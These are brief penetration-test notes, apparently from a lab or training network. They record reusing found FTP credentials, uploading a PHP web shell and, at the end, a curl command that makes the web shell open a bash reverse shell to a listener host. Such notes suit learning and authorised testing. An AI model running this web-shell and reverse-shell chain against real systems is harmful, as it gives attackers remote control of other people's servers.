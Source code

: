 [[home-kali-sitemanager.xml]] requires this dependency

able to login with Genesis File Server with the ftp credentials foun don the `10.10.110.10`
![[Pasted image 20240530110853.png]]
able to upload `php web shell` to web page and access it
![[Pasted image 20240530113524.png]]
have webshell
![[Pasted image 20240530113621.png]]
adding reverse shell
```bash

curl -G http://10.10.110.12/documents/easy-simple-php-webshell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.39/1337 0>&1"'
```